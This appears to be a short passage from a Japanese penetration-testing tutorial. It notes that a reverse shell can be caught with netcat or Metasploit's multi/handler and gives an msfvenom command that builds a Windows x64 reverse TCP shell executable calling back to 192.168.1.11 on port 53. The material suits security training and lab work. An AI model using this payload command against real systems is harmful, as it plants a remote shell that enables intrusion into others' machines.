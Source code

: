 このリバースシェルはnetcatやMetasploit独自のmulti/handlerを使って捕捉することが出来る。
```
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f exe -o reverse.exe
```
